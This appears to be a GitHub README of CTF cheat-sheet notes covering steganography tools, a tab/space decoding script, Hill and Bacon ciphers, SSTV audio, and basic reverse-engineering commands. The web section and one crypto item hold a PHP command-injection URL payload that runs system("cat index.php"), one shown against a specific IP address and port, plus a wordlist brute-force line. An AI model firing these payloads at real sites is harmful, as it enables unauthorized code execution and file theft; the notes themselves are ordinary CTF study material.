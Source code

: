 # CTF

- [Steganography](#stenography)
  - [Steganography audio](#stenographyaudio)
- [Web](#web)
- [Cryptography](#crypto)
- [Forensics](#forensics)
- [Reverse Engineering](#rev)

## Steganography <a name="stenography"></a>

- ```steghide --extract -sf image.jpg -p <password>```
- ```stegcracker imag.png /user/share/wordlists/rockyou.txt```
- ```file image.png```
- ```strings image.png```
- ```pngcheck image.png```
- ```sudo apt install libimage-exiftool-perl -y```
  - ```exiftool image.png```
  - ```eog image.png```
- ```xxd image.png```
  - if you see IEND chunk in exiftool use this command.
- ```find | xargs cat | grep "find"``` //if you have lot of text file then you this
  - ```grep -rni "flag{.*}"```
- Download the stegsolve.jar in any GitHub
  - ```java -jar stegsolve.jar```
  - make sure that you give the permission. 
- [ZXing Decoder](https://zxing.org/w/decode.jspx)
  - If the image is QR code image
- ```sudo apt install ruby```
  - ```sudo gem install zsteg```
  - ```zsteg image.png``` or ```zsteg  -a image.png```
  - only for png image.
- ```binwalk -e image.png```
  - ```binwalk --dd = ".*" image.png```
- ```outguess -r image.png flag.txt```
  - for the LSB.
- [Unicode](https://330k.github.io/misc_tools/unicode_steganography.html) 
  - zero width space
- redacted text (cover with block) in a given pdf
  - ```pdftotext file.pdf``` or ```pdftohtml  file.pdf```
- suspicious space and tabs in a given text file
![image](https://github.com/Chittu13/CTF/blob/main/image/space_tab.png)
  - python script to extract and convert from binary to ASCII and get  the flag.
``` python
def extract_and_convert(file_path):
    with open(file_path, 'rb') as file:
        data = file.read()

    result = ''
    for byte in data:
        if byte == 0x09:  // Tab character
            result += '0'
        elif byte == 0x20:  // Space character
            result += '1'
    
    return result

file_path = 'the_cs_dictionary.txt'

binary_string = extract_and_convert(file_path)

n = int(binary_string, 2)
print(n.to_bytes((n.bit_length() + 7) // 8, 'big').decode())

```
## Steganography audio <a name="stenographyaudio"></a>
- [Morsecode](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)
- [stegolsb](https://github.com/ragibson/Steganography.git)
  - If the audio is related to LSB
  - ```cd Steganography```
  - give the permission
  - ```python3 setup.py install```
  - ```stegolsb wavsteg -r -i file.wav -o flag.txt -n 2 -b 1000```




## Web <a name="web"></a>
- ```http://127.0.0.1:808/index.php?page=' and die(system("cat index.php")) or ' ```
  - if you want to read the index.php use this payload in the url "    ' and die(system("cat index.php")) or ' "
- ```curl -X POST --data hash=2196812e91c29df34f5e217cfd639881 "http://example.com:8080/admin.php"```
  - you use this if you found hash in the sorce page
- ```wget -m http://example.com:8080/```
  - here it will download the all the file in the website
  - ```grep -R "CTF{.*}"``` use this commond after download the all files

## Cryptography <a name="crypto"></a>
1. This is [Hill Cipher](https://www.dcode.fr/hill-cipher), see how it works or use an online decoder
```
-------------------------
|76 |101|115|116|101|114|
-------------------------
|32 |83 |97 |110|100|101|
-------------------------
|114|115|32 |115|104|111|
-------------------------
|117|108|100|32 |104|101|
-------------------------
|108|112|32 |121|111|117|
-------------------------
|32 |58 |41 |41 |41 |42 |
-------------------------

KLZCOUKTVOUWUKDOBGZVJIIIRGVHXCRQUCNOX_IBBL 
```
![image](https://github.com/Chittu13/CTF/blob/main/image/hill_cipher.png)
  - flag ```CTF{BTW_EXISTS_AN_INTERESTING_FILM_ABOUT_HILLS}```
2. http://62.173.140.174:46005/index.php?page=' and die(system("cat index.php")) or '
    - if the web is old version use this in the url
3. Replace small letters with A, capital letters with B
    - ```BA BAAB AAABABAAAAABB AAA BBBBAA BBABAAA BA ABBABAAAB AABAAAA AB AAAAAA AABABB BBAABBABBAABA```
    - [bacon-cipher](https://www.dcode.fr/bacon-cipher)
## Forensics <a name="forensics"></a>
- [outer space audio](https://github.com/colaclanth/sstv.git)
  - ```sudo python3 setup.py install```
  - ```sstv -d file.wav -o result.png```
  - if the hit is related about SSTV(slow scan TV)

## Reverse Engineering <a name="rev"></a>
- ```ltrace ./filename```
  - The file is executable_file so we use ./filename
- ```strace ./filename```
- [ghidra](https://github.com/NationalSecurityAgency/ghidra/releases)
  - Download the zip file from the above line```hidra_11.0.3_PUBLIC_20240410.zip```
